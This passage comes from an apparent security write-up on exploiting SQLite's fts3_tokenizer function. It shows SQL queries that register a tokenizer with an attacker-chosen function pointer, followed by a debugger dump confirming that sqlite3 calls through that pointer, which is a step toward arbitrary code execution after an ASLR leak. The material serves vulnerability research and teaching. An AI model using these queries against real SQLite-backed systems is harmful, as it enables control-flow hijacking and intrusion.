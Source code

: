 So a simple SQL query breaks the ASLR.

![fts3_tokenizer_leak](/img/sqlite3-aslr.jpeg)

## Arbitrary Code Execution via Callbacks

The following queries will crash sqlite3 REPL (for 32bit, use `x'41414141'` instead):

```sql
select fts3_tokenizer('mytokenizer', x'4141414141414141');
create virtual table a using fts3(tokenize=mytokenizer);
```

Use a debugger to view the context:

```
[---------------------code---------------------]  
RAX: 0x4141414141414141 (b'AAAAAAAA')  
RBX: 0x0   
RCX: 0x0   
RDX: 0x7fffffffc620 --> 0x0   
RSI: 0x0   
RDI: 0x0   
RBP: 0x0   
RSP: 0x7fffffffc4e0 --> 0x3   
RIP: 0x7ffff7bab71c (call QWORD PTR [rax+0x8])  
R8 : 0x55555579b968 --> 0x656c706d6973 (b'simple')  
R9 : 0x0   
R10: 0x0   
R11: 0x1   
R12: 0x0   
R13: 0x8   
R14: 0x7fffffffc514 --> 0x2e1ef00000000006   
R15: 0x555555799f78 --> 0x7ffff7bb39e4 --> 0x746e65746e6f63 (b'content')  
[---------------------code---------------------]  
 0x7ffff7bab712: mov edi,ebx  
 0x7ffff7bab714: mov rdx,QWORD PTR [rsp+0x10]  
 0x7ffff7bab719: mov rsi,r12  
=> 0x7ffff7bab71c: call QWORD PTR [rax+0x8]  
 0x7ffff7bab71f: test eax,eax  
 0x7ffff7bab721: mov ebx,eax  
 0x7ffff7bab723: jne 0x7ffff7bab790  
 0x7ffff7bab725: mov rax,QWORD PTR [rsp+0x10]

```
